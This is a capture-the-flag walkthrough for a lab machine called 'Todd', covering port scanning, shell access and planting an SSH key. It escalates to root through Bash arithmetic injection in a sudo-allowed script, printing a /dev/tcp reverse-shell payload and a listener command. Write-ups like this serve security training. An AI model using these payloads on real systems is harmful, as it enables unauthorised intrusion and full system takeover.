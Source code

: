 ```yaml
---
title: 'Todd'
description: 'How to get flags on Todd machine'
pubDate: 'June 12 2025'
heroImage: '../../assets/commands.png'
---
```


## Reconnaissance

### Initial Nmap Scan
```bash
$ nmap -sV -sC -p- 192.168.56.3 -A

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp    open  http       Apache httpd 2.4.59 ((Debian))
2519/tcp  open  tcpwrapped
4470/tcp  open  tcpwrapped
...
```

### Second Nmap Scan Reveals Interesting Port
```bash
$ nmap -sV -p- 192.168.56.3
-----------
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp    open  http       Apache httpd 2.4.59 ((Debian))
7066/tcp  open  unknown
...
```

Note: Port 7066 appears intermittently.

## Initial Access via Port 7066

### Persistent Connection Attempt
```bash
$ while true;do nc 192.168.56.3 7066;done
(UNKNOWN) [192.168.56.3] 7066 (?) : Connection refused
(UNKNOWN) [192.168.56.3] 7066 (?) : Connection refused
whoami
todd
```

### Establishing SSH Access
1. Generate SSH key on attacker machine:
```bash
ssh-keygen -t rsa -f todd
```

2. On target machine:
```bash
mkdir -p /home/todd/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCOd2qBPt87qsYOMlBoxpn6uTqyKwHLIXcNj8eO.... void-strike@athena" > /home/todd/.ssh/authorized_keys
```

3. Connect via SSH:
```bash
ssh todd@192.168.56.3 -i ~/.ssh/todd
```

## Privilege Escalation

### Checking Sudo Privileges
```bash
$ sudo -l
Matching Defaults entries for todd on todd:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User todd may run the following commands on todd:
    (ALL : ALL) NOPASSWD: /bin/bash /srv/guess_and_check.sh
    (ALL : ALL) NOPASSWD: /usr/bin/rm
    (ALL : ALL) NOPASSWD: /usr/sbin/reboot
```

### Analyzing guess_and_check.sh
```bash
# check this script used by human 
a=$((RANDOM%1000))
echo "Please Input [$a]"

echo "[+] Check this script used by human."
echo "[+] Please Input Correct Number:"
read -p ">>>" input_number

[[ $input_number -ne "$a" ]] && exit 1

sleep 0.2
true_file="/tmp/$((RANDOM%1000))"
sleep 1
false_file="/tmp/$((RANDOM%1000))"

[[ -f "$true_file" ]] && [[ ! -f "$false_file" ]] && cat /root/.cred || exit 2
```

### Method 1: File Creation Exploit
1. Create dummy files to increase probability:
```bash
for i in {1..600}; do touch /tmp/$i ;done
```

2. Run the script repeatedly until successful:
```bash
sudo /bin/bash /srv/guess_and_check.sh
```

### Method 2: Command Injection
1. Execute arbitrary commands through input:
```bash
Please Input [316]
[+] Check this script used by human.
[+] Please Input Correct Number:
>>>N[$(/bin/bash -i >& /dev/tcp/192.168.56.1/9001 0>&1)]
```

2. Set up listener:
```bash
nc -vlnp 9001
```

### Explanation of Command Injection
The input `N[$(cat /root/root.txt)]` is interpreted in an arithmetic context, causing Bash to attempt evaluating the flag contents as arithmetic, which fails and reveals the flag content in the error message.

## Root Access
Use the credentials from /root/.cred to switch to root:
```bash
su
Password: [content of /root/.cred]
root@todd:/home/todd#
```

Or via the reverse shell obtained through command injection.
